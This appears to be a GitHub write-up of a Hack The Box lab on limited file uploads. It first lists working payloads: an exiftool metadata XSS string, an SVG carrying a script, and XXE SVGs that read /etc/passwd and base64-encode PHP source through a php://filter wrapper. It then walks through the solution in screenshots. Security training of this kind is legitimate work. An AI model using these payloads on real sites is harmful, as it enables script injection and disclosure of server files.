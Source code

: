 # Limited File Uploads

- The above exercise contains an upload functionality that should be secure against arbitrary file uploads.
 Try to exploit it using one of the attacks shown in this section to read "/flag.txt"

  `Hint`: Use an attack that can read files, and don't forget to check the page source!
- Try to read the source code of 'upload.php' to identify the uploads directory, and use its name as the answer. (write it exactly as found in the source, without quotes)
  
  `Hint`: Use a different payload to read source code.
---
## Possible Attacks

If the web applications displays an image's metadata after its upload, we can perform the following attack:
- `XSS` via comment injection:
  ```bash
  exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
  ```
  `Note`: It is possible to perform this attack using one of the Metadata parameters that accept raw text, like the `Comment` or 
  `Artist` parameters. Furthermore, if we change the image's `MIME-Type` to `text/html`, some web applications may show it as an HTML 
  document instead of an image, in which case the XSS payload would be triggered even if the metadata wasn't directly displayed.
---
## `.svg` Attacks
- Custom `.svg` image:
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
  <svg xmlns="http://www.w3.org/2000/svg" width="100" height="100" viewBox="0 0 100 100">
      <circle cx="50" cy="50" r="40" fill="red" />
  </svg>
  ```
- `XSS` via HTB.svg:
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
  <svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
      <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
      <script type="text/javascript">alert(window.origin);</script>
  </svg>
  ```
## Common file disclosure
- `XXE` via `.svg` file:
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
  <svg>&xxe;</svg>
  ```
## Source code file Disclosure
- `XXE` via `.svg` file with `PHP Wrappers`:
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
  <svg>&xxe;</svg>
  ```
---

## Exercise

We attempted to upload a simple `.png` image but we received the response with the message "Only SVG images are allowed":
![image](https://github.com/user-attachments/assets/36479000-2f72-4e4b-8893-99deeb070204)

Since only `.svg` extensions are allowed, we attempt to upload a basic `.svg` image:
![image](https://github.com/user-attachments/assets/c958b80b-f3c5-4f0c-ba94-362fc3033bca)
We discover that the page is displaying the image previously loaded by reading de source code from the backend:
![image](https://github.com/user-attachments/assets/120ad4f8-7ab8-42c7-93cc-d1904a5ecd0b)
![image](https://github.com/user-attachments/assets/eae9ef81-0d82-4812-89c1-34f48ad16fdf)



We performed a `XSS` attack via `.svg` upload:
![image](https://github.com/user-attachments/assets/1d6ebcf9-91d4-4f2f-b4e9-fed9a43451ab)
![image](https://github.com/user-attachments/assets/272a725a-ae20-4873-b278-32c3e253d3f1)
![image](https://github.com/user-attachments/assets/06358b9a-0a9e-48fa-b253-d6687a6899b7)

Then we performed a `XXE` attack in order to get the content of the `/flag.txt` file:
![image](https://github.com/user-attachments/assets/d9f1a541-f7fb-4ab3-97e7-dac94709eac5)
![image](https://github.com/user-attachments/assets/fa0b467f-639f-4f5d-97f1-fe024e57d6fa)


To read the source code of `upload.php` we perform a `XXE` attack via `PHP Wrapper`:
![image](https://github.com/user-attachments/assets/ff931621-7fcc-4075-9c62-a9153bc23c57)
![image](https://github.com/user-attachments/assets/7beb39b8-141b-46f0-8e7a-3404be459892)

Then we get de raw source code and solve the lab:
![image](https://github.com/user-attachments/assets/282bacad-57ed-49dd-aa1c-2c819661e353)






